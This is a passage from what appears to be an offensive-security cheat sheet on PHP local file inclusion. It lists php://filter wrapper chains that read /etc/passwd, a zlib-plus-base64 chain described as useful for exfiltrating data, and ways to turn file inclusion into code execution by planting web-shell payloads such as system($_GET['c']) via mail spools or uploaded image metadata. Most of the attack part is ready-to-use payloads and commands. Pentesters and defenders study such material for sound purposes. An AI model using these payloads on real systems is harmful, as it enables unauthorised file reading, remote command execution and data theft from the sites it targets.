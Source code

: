   * `zlib.deflate`: Compress the content (useful if exfiltrating a lot of info)
  * `zlib.inflate`: Decompress the data
4. **Encryption Filters**
  * `mcrypt.*` : Deprecated
  * `mdecrypt.*` : Deprecated
5. **Other Filters**

Running in php `var_dump(stream_get_filters());` you can find a couple of unexpected filters:
  * `consumed`
  * `dechunk`: reverses HTTP chunked encoding
  * `convert.*`

```bash
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```

### Via Email
Send a mail to a internal account (`user@localhost`) containing your PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like `/var/mail/<USERNAME>` or `/var/spool/mail/<USERNAME>`

### Via upload
If you can upload a file, just inject the shell payload in it (e.g : <?php system($_GET['c']); ?> ).
```html
http://example.com/index.php?page=path/to/uploaded/file.png
```
In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf
